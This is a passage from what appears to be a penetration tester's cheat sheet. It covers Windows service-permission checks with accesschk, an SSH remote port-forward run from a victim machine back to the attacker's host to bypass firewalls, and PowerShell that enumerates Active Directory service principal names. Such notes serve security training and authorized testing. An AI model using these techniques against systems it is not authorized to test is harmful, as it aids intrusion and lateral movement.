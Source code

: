 ```sh
C:\Inetpub>accesschk.exe -uwcqv "Authenticated Users" *
C:\> accesschk.exe -uwcqv "Authenticated Users" *
C:\> accesschk.exe -ucqv SSDPSRV
C:\> accesschk.exe -ucqv upnphost
```

This guide is useful: https://www.fuzzysecurity.com/tutorials/16.html
### Linux

Can use linux priv esc checker.

## Port forwarding

### Remote port forwarding

Traffic sent to victim port will be sent to our port instead. This can be used to bypass firewalls.

First, on victim machine:

```sh
ssh -N -R <our_ip>:<our_port_number>:127.0.0.1:<port_to_forward> <our_username>@<our_ip>
```

Then on our machine to verify:

```sh
ss -antp | grep "<out_port_number>"
```

## Active Directory

```powershell
[System.DirecrotyServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### Get all Service Principal Names (SPN's)

```powershell
cls
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(servicePrincipalName=*)"

## You can use this to filter for OU's:
## $results = $search.Findall() | ?{ $_.path -like '*OU=whatever,DC=whatever,DC=whatever*' }
$results = $search.Findall()

foreach( $result in $results ) {
	$userEntry = $result.GetDirectoryEntry()
	Write-host "Object Name = " $userEntry.name -backgroundcolor "yellow" -foregroundcolor "black"
	Write-host "DN      =      "  $userEntry.distinguishedName
	Write-host "Object Cat. = "  $userEntry.objectCategory
	Write-host "servicePrincipalNames"

	$i=1
	foreach( $SPN in $userEntry.servicePrincipalName ) {
		Write-host "SPN(" $i ")   =      " $SPN
		$i+=1
	}
	Write-host ""
}
```
